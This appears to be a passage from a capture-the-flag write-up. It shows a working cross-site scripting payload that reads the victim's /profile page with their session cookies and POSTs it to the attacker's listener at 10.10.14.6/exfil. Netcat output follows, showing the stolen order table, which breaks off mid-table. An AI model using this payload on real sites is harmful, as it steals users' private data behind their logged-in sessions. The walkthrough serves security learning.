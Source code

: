     
    
    fetch('/profile', {credentials: "include"})
    .then((resp) => resp.text())
    .then((resptext) => {
      fetch("http://10.10.14.6/exfil", {
        method: "POST",
        mode: "no-cors",
        body: resptext
      });
    });
    

I’ll listen with `nc` on port 80, and after a couple minutes, what returns is
the same as what I see on mine, with different data / orders. The order
numbers for the user are very low:

    
    
      <tbody>
        
        <tr>
          <th scope="row">Order #7</th>
          <td>Fri Dec 23 2022 20:10:04 GMT+0000 (Coordinated Universal Time)</td>
          <td>£34</td>
          <td>
            <a href="/order/7">View Order</
          </td>
        </tr>
        
        <tr>
          <th scope="row">Order #8</th>
          <td>Sun Dec 25 2022 20:10:04 GMT+0000 (Coordinated Universal Time)</td>
          <td>£80</td>
          <td>
            <a href="/order/8">View Order</
          </td>
        </tr>
        
        <tr>
          <th scope="row">Order #9</th>
          <td>Wed Dec 28 2022 20:10:04 GMT+0000 (Coordinated Universal Time)</td>
          <td>£34</td>
          <td>
            <a href="/order/9">View Order</
          </td>
        </tr>
        
        <tr>
          <th scope="row">Order #407</th>
          <td>Tue Jan 16 2024 17:56:24 GMT+0000 (Coordinated Universal Time)</td>
          <td>£40</td>
          <td>
            <a href="/order/407">View Order</
          </td>
        </tr>
        